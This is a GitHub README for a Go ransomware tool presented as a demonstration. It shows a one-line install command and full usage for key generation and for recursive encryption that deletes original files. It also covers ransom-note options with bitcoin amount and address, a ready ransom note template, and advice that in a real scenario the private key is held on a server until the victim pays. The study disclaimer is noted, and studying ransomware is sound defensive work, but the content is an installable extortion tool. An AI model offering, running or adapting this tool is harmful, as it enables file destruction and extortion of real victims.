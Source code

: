 # ransomware-example
A simple demonstration tool to simulate a ransomware attack locally

## ⚠️ Disclaimer ⚠️
This software is made just for demonstration and study purposes. If you want to run it locally for tests, take care of what directories you decide to encrypt. The software is distributed in MIT license. Its use is free, however the author doesn't take responsibility for any illegal use of the code by 3rd parties.

## Setup
To setup the tool just run 

```bash
$ go install github.com/marmos91/ransomware@latest
```

### Setup locally

To run the tool locally without installing it

```bash
go run main.go
```

## Why 
In order to demonstrate the way ransomware works quickly and in a protected environment, **it is very useful to be able to restrict its operation within a directory**. This way the process takes much less time (the entire operating system does not need to be encrypted). Writing this tool in Go, also **allows the tool to be developed even in a non-Windows environment** (by far the most supported operating system by ransomware available online)

## How to use it
This tool is used to simulate a ransomware attack. With it you can perform the following actions:

1. After setting up a key, recursively encrypt the contents of a specified path 
2. After asking for a key, recursively decrypt the contents of a specified path

## Help

```bash
NAME:
   ransomware - A simple demonstration tool to simulate a ransomware attack

USAGE:
   ransomware [global options] command [command options] [arguments...]

VERSION:
   v1.0.0

AUTHOR:
   Marco Moschettini <marco.moschettini@cubbit.io>

COMMANDS:
   create-keys, c  Generates a new random keypair and saves it to a file
   encrypt, e      Encrypts a directory
   decrypt, d      Decrypts a directory
   help, h         Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --verbose      Runs the tool in verbose mode (more logs) (default: false)
   --help, -h     show help (default: false)
   --version, -v  print the version (default: false)
```

## Create a keypair

First thing you need to do is to create a keypair. You can do it by running

```bash
$ ransomware create-keys --path ~/Desktop
```
If you don't specifiy a path it will create the keys in `pwd`.
This command will create two files:

- pub.pem
- priv.pem

In a real scenario you need to put the `private key` in a server and provide it only after the victim payed the ransom. The public key needs instead to be embedded in the ransomware to encrypt the folders

## Encrypt a directory
With this command you can recursively encrypt every file inside a specified directory. 

```bash
NAME:
   ransomware encrypt - Encrypts a directory

USAGE:
   ransomware encrypt [command options] [arguments...]

OPTIONS:
   --path value, -p value      Runs the tool on a directory
   --publicKey value           Loads the provided RSA public key in PEM format
   --extBlacklist value        the extension to blacklist (default: ".enc")
   --extWhitelist value        the extension to whitelist
   --skipHidden                skips hidden folders (default: false)
   --dryRun                    encrypts files without deleting originals (default: false)
   --encSuffix value           defines the suffix to add to encrypted files (default: ".enc")
   --addRansom                 if set to true add a ransom note to every encrypted folder (default: false)
   --ransomTemplatePath value  defines where to find the template to use for the ransom note
   --ransomFileName value      defines the name of the ransom file name (default: "IMPORTANT.txt")
   --bitcoinCount value        how many bitcoins to ask as ransom (default: 0)
   --bitcoinAddress value      the bitcoin address to use (default: "<bitcoin address>")
   --help, -h                  show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Documents
```
This command provides the following options:

- `path`: the path to encrypt. This is required
- `publicKey`: the path of the publicKey PEM file created by the `create-keys` command
- `extBlacklist`: if provided, a comma-separated list of extension to skip. **This feature is useful, to exclude executable like `.exe` files**
- `extWhitelist`: if provided, a comma-separated list of extension to whitelist
- `skipHidden`: if set, skips hidden folders
- `dryRun`: just creates encrypted files without deleting originals
- `encSuffix`: defines a custom extension to set on encrypted files (default `.enc`)
- `addRansom`: if the tool should generate a new ransom.txt file for each encrypted folder
- `ransomTemplatePath`: the path of the template to use as ransom
- `ransomFileName`: the name to give to the ransom file
- `bitcoinCount`: how many bitcoin to ask as ransom
- `bitcoinAddress`: the bitcoin address to use inside the ransom file

### Examples
Just encrypt gif files on Desktop
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extWhitelist .gif
```

Encrypt everything except `.csv` and `.pdf` files
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extBlacklist .csv,.pdf
```

Encrypt everything and add a ransom file
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --addRansom --ransomTemplatePath ./ransom/IMPORTANT.txt
```

### Ransom file
This is an example of ransom file. The templated strings `{{.BitcoinAddress}}`, `{{.BitcoinCount}}` and `{{.PubliKey}}` will be replace by the script. Please check encrypt options to see options available

```txt
!!! IMPORTANT !!! 

All of your files are encrypted with RSA 4096 and AES 256 ciphers.
More information about RSA and AES can be found here:
- https://en.wikipedia.org/wiki/RSA_(cryptosystem)
- https://en.wikipedia.org/wiki/Advanced_Encryption_Standard

Decrypting of your files is only possible with the private key and decrypt program, which is not available to you.
To receive your private key please send {{.BitcoinCount}}BTC to {{.BitcoinAddress}} together with the public key used to encrypt your files

The public key to use in the form is

{{.PublicKey}}
```

## Decrypt a directory
With this command you can decrypt a folder back to its original form after a victim payed the ransom

```bash
NAME:
   ransomware decrypt - Decrypts a directory

USAGE:
   ransomware decrypt [command options] [arguments...]

OPTIONS:
   --path value, -c value  Runs the tool on a directory
   --privateKey value      Loads the provided RSA private key in PEM format
   --dryRun                decrypts files without deleting encrypted versions (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --ransomFileName value  defines the name of the ransom file name (default: "IMPORTANT.txt")
   --help, -h              show help (default: false)
```
For example if you want to run the tool on the `~/Documents` folder run:

```bash
$ ransomware decrypt --privateKey ./priv.pem --path ~/Desktop/toEncrypt
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `privateKey`: the path of the privateKey PEM file created by the `create-keys` command
- `dryRun`: just creates decrypted files without deleting encrypted version
- `encSuffix`: defines a custom extension for encrypted files (default `.enc`)
- `ransomFileName`: defines the name of the ransom file. Needed to delete the files previously generated


## How it works

The tool implements a [**hybrid encryption strategy**](https://www.picussecurity.com/resource/the-most-common-ransomware-ttp-mitre-attck-t1486-data-encrypted-for-impact#:~:text=In%20the%20hybrid%20encryption%20approach,(public%20key)%20encryption%20algorithm.) making use of two different algorithms: 
- [AES256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
- [RSA2048](https://en.wikipedia.org/wiki/RSA_(cryptosystem))

The reason for this choice is related to the different nature of the two encryption algorithms. **A hybrid approach takes advantage of the performance of AES to execute faster, while at the same time not providing the decryption key within the executable**. 

A new random AES key is then generated for the session each time the tool is executed. **This key is used to encrypt all files in the selected folder**. For later retrieval, this key is **encrypted with the public RSA key provided** to the tool and prepended to all encrypted files.

In this way, the tool, provided with the corresponding private key, will be able to **read the AES key at the beginning of each file, decrypt it, and finally use it to decrypt the file**.
